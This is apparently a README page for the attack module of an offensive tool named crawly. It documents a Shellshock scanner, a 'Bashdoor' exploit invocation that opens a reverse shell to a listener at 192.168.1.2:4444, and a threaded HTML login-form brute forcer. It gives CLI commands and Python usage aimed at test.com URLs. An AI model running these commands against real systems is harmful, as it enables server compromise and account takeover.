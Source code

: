 # Attack

# File

- [x] attack.py

This file contains attacking classes of crawly. Each class instancied is auto runned with the given paremeters.

# Shellshock / Bashdoor

```
# CLI command
crawly -A http://www.test.com/cgi-bin/vuln.cgi --shellshock
crawly -A http://www.test.com/cgi-bin/vuln.cgi --bashdoor --lhost 192.168.1.2 --lport 4444
```
```python
class Shellshock:
    def __init__(self, URL)

class Bashdoor:
    def __init__(self, RURL, LHOST, LPORT)
    
>>> import crawly
>>> URL = "http://www.test.com/cgi-bin/vuln.cgi"
>>> crawly.Shellshock(URL)
>>> crawly.Bashdoor(URL, "192.168.1.2", 4444)
```

# HTML form bruteforcer

Can break simple HTML forms.

```python
class HTMLBrute:
	def __init__(self, URL, USERFIELD="username", PASSFIELD="password", ERRORMSG="Error", 
		USER="admin", WORDLIST, THREADS)

>>> import crawly
>>> crawly.HTMLBrute("http://test.com/admin.php", ERRORMSG="Login Error", USER="webmaster", WORDLIST="pass_list.lst", THREADS=35)
```
